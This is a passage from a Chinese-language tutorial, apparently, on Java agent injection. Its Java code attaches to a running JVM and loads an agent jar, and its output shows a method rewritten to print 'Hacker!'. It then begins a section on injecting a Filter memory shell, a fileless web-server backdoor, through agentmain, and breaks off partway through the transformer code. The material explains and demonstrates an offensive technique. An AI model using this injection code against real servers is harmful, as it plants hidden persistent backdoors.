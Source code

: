 


先运行Sleep_Hello 再运行这个

```java
public class Inject_Agent {
    public static void main(String[] args) throws Exception {
        //调用VirtualMachine.list()获取正在运行的JVM列表
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for(VirtualMachineDescriptor vmd : list){
            System.out.println(vmd.displayName());
            //遍历每一个正在运行的JVM，如果JVM名称为Sleep_Hello则连接该JVM并加载特定Agent
            if(vmd.displayName().equals("AgentShell.Sleep_Hello")){
                //连接指定JVM
                VirtualMachine virtualMachine = VirtualMachine.attach(vmd.id());
                //加载Agent
                virtualMachine.loadAgent("/Users/taoyu/Music/code/java_code/Java-Agent-Memshell/Instrumentation/target/Instrumentation-1.0-SNAPSHOT-jar-with-dependencies.jar");
                //断开JVM连接
                virtualMachine.detach();
            }
        }
    }
}
```



```
Hello World!
Hello World!
Hello World!
Hello World!
Hello World!
Hello World!
javassist.CtClassType@6ae33825[public class AgentShell.Sleep_Hello fields= constructors=javassist.CtConstructor@58966603[public Sleep_Hello ()V],  methods=javassist.CtMethod@44a4fe33[public static main ([Ljava/lang/String;)V], javassist.CtMethod@30063153[public static hello ()V], ]
Hacker!
Hacker!
```



# 一些利用

## 利用agentmain注入Filter内存马

准备好实现了ClassFileTransformer接口的Filter_Transform

```java
public class Filter_Transform implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        try {

            //获取CtClass 对象的容器 ClassPool
            ClassPool classPool = ClassPool.getDefault();

            //添加额外的类搜索路径
            if (classBeingRedefined != null) {
                ClassClassPath ccp = new ClassClassPath(classBeingRedefined);
                classPool.insertClassPath(ccp);
            }

            //获取目标类
```